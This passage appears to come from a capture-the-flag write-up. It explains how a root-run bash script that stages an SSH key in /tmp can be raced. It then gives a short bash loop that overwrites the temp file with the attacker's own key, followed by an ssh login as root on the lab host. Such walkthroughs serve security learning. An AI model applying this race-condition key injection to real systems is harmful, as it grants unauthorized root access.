 ```bash
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

The tl;dr of this script is that it echos the public key stored at `$key` to a file in `/tmp/` with the name `ssh-XXXXXXXX` where each X can be a different character. After the key is written there, the program checks that the file exists before reading it and adding the contents to the root user's `authorized_keys` file. This means that while the script is checking the file exists, we can override it with our own ssh key.
### Exploiting
We can generate our own ssh key pair by using `ssh-keygen` and following the prompts. Then we can use get our public key (the one ending in `.pub`) and using the following bash script, we can attempt to add it to any files starting with `ssh-` in the `/tmp` directory. The reason for the `while true` is because we do not know at which moment the file will be created so we have to constantly try.

```bash
while true
do 	
echo "ssh-key" | tee /tmp/ssh-*
done
```

First we need to open two SSH sessions as Neil, one to run our exploit script and one to trigger `sudo /usr/local/bin/enableSSH.sh`. Then, while our infinite loop is running we can execute `enableSSH.sh`.

FInally we can attempt to ssh as root using our key with `ssh root@10.10.10.223 -i id_rsa` and we have root.

